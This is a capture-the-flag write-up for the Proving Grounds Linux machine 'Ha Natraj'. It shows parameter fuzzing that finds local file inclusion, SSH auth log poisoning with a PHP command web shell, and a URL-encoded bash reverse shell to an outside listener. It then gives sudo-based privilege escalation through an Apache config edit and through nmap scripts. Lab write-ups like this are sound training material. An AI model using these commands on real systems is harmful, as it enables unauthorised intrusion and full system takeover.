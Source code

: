 ```yaml
---
layout: default
title: Ha Natraj
parent: Proving Grounds - Linux
nav_order: 3
---
```


# Ha Natraj

---

## Host Info

- _OS_: Linux
- _IP_: 192.168.202.80

## Discovered Ports for Enumeration

- _22_ - SSH
- _80_ - http

## Users and Credentials

- _Users_: natraj, mahakal
- _Credentials_:

# Scanning (Nmap)

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.202.80
```

# Enumeration

---

## 80 - HTTP

### Wfuzz

Returns the directory _/console_

![wfuzz](../../../assets/images/ctfs/proving_grounds/ha_natraj/wfuzz.png)

_/console_ contains _file.php_ which is empty

Use wfuzz to fuzz a parameter and test for LFI.

```bash
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 0 "http://192.168.202.80/console/file.php?FUZZ=../../../../../../../etc/passwd"
```

![fuzz_lfi](../../../assets/images/ctfs/proving_grounds/ha_natraj/fuzz_lfi.png)

This reveals the parameter _file_.

Confirm LFI vulnerability by displaying _/etc/passwd_

![etc_passwd](../../../assets/images/ctfs/proving_grounds/ha_natraj/etc_passwd.png)

Users: natraj and mahakal
{: .warn }

# Exploitation

---

## SSH Auth Log Poisoning

Check if _/var/log/auth.log_ is visible.

```bash
URL: http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log
```

![ssh_log](../../../assets/images/ctfs/proving_grounds/ha_natraj/ssh_log.png)

Process for testing SSH auth log poisoning and RCE:

1. Netcat verbose to the target on port 22
2. Send malicious php code
3. Verify SSH auth log poisoning successful
4. Execute RCE with PHP cmd shell via poisoned log

Send PHP cmd shell through SSH via Netcat.

```bash
# netcat verbose to target on port 22
nc -nv 192.168.202.80 22

# send malicious php code
pwn_code/<?php passthru($_GET['cmd']); ?>
```

Verify SSH auth log is poisoned.

![ssh_poison](../../../assets/images/ctfs/proving_grounds/ha_natraj/ssh_poison.png)

Execute RCE with PHP cmd shell via poisoned log.

```bash
URL: http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=id
```

![cmd_rce](../../../assets/images/ctfs/proving_grounds/ha_natraj/cmd_rce.png)

Get reverse shell with URL encoded bash one-liner

```bash
URL: 192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=bash -c "bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261"
```

![rev_shell](../../../assets/images/ctfs/proving_grounds/ha_natraj/rev_shell.png)

# Post-Exploitation

---

## Spawn TTY Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty size
stty raw -echo
fg
stty rows <first_value>
stty cols <second_value>
export TERM=xterm-256color
```

## Check SUDO Permissions

```bash
sudo -l
```

![sudo_l](../../../assets/images/ctfs/proving_grounds/ha_natraj/sudo_l.png)

We can exploit this to change the apache2.conf file to run as user 'mahakal' instead of 'www-data'.

If we restart Apache after doing this we will lose our shell, but when we regain our reverse shell connection we will be logged on as 'mahakal' instead of 'www-data'

```bash
# make a copy of apache2.conf and place in /var/tmp
cd /var/tmp
cp /etc/apache2/apache2.conf .

# Use sed to find the 'user' environment variable and replace with 'mahakal'
sed -i 's/User ${APACHE_RUN_USER}/User mahakal/g' apache2.conf

# Use sed to find the 'group' environment variable and replace with 'mahakal'
sed -i 's/Group ${APACHE_RUN_GROUP}/Group mahakal/g' apache2.conf

# Replace apache2.conf with the newly edited version
cp apache2.conf /etc/apache2/apache2.conf
```

Restart the Apache2 service.

```bash
sudo /bin/systemctl restart apache2
```

Regain our shell...

```bash
http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261%22
```

## Check Sudo Permissions for 'mahakal'

We are now logged on as _mahakal_ and can check this account's sudo permissions.

![mahakal_sudo](../../../assets/images/ctfs/proving_grounds/ha_natraj/mahakal_sudo.png)

If we create a binary in _/dev/shm_ and execute this with _nmap_ and the _--script_ flag will will have a root shell.

```bash
cd /dev/shm
echo 'os.execute("/bin/bash")' > rootshell
sudo /usr/bin/nmap --script=rootshell
```

![root](../../../assets/images/ctfs/proving_grounds/ha_natraj/root.png)
